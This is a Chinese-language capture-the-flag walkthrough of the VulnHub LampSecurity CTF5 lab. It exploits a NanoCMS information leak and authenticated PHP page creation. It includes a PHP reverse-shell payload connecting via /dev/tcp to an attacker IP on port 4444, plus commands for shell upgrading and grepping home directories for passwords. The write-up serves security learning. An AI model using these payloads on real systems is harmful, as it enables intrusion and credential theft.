

LampSecurityCTF5 - CTF
===

> 靶机下载: [镜像](https://download.vulnhub.com/lampsecurity/ctf5.zip)

## 基本信息收集

### 主机发现


### 端口扫描


80 端口爆了比较多的信息;

### 网页访问

打开是一个论坛系统: Phake Organization;


### 目录爆破

简单的爆破一下:


根据结果能发现 php 信息:


另外, 在首页能找到 Andy 这个用户的 blog, 通过 webmail 一路找进来能找到一个管理员登录界面:


注意这里有写 "NanoCMS Admin Login"

## Nano 漏洞利用

既然知道了 CMS , 着手在 google 和 Metasploit 里收集一下 nday:





> NanoCMS 未对已认证用户创建网页时的数据进行过滤
页面默认保存为 `.php` 后缀，使得通过认证的攻击者能够访问底层系统;

这个利用需要一个能登陆的已经通过认证的 CMS 账户, 不过尝试注册的话, 注册之后貌似不会默认分配密码, 需要用邮箱去重置密码, 先看看能不能获取已知账户的密码, 例如这个 Andy:

### 信息泄露

接着找找这个 "nano cms" 的漏洞, 发现还存在一个信息泄露漏洞:


从几个不同的路径尝试后, 发现在 `http://192.168.170.153/~andy/data/pagesdata.txt` 存在信息泄露:


把这个结果拿去 [Crackstation](https://crackstation.net/) 碰撞, 结果是: `shannon`:


尝试 `admin:shannon` 的组合, 直接登录了:


### 远程代码执行

#### 发现漏洞

试试用当前账户创建一个新页面 `test`:


竟然是以 `.php` 的格式进行创建的, 那就有非常大的攻击面了。

#### 发送反弹 shell

接下来直接尝试发送反弹 shell, 测试有没有过滤或者屏蔽:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.170.145/4444 0>&1'");
?>
```


同时在 kali 上监听 4444 端口:


收到了反弹 shell! 接下来只需要想办法提权即可。

## Linux 提权

### getshell

首先获取完整 shell, 试试环境里有没有 python:

```bash
which python
python -c 'import pty;pty.spawn("/bin/bash")'
stty raw -echo
```


### 收集信息

接下来粗略枚举一下, 收集信息:


```bash
grep -rni /home -e 'pass' 2>/dev/null
```
> `-r`: 递归搜索;
> `-n`: 显示匹配行号;
> `-i`: 忽略大小写;
> `-e`: 包含字符串;
> `2>/dev/null`: 忽略报错;

再试试搜索可能有的备份密码文件:


### 备份信息泄露

找到一个很可疑的文件, 读一下:


试试这个密码:


直接登录成功! 完成了提权。后面找了半天没找到 flag, 看了下靶机附带的 pdf, 原来是没有 flag 文件, 那么到这里渗透就结束了, 总体来说比较简单, 主要漏洞集中在信息泄露上。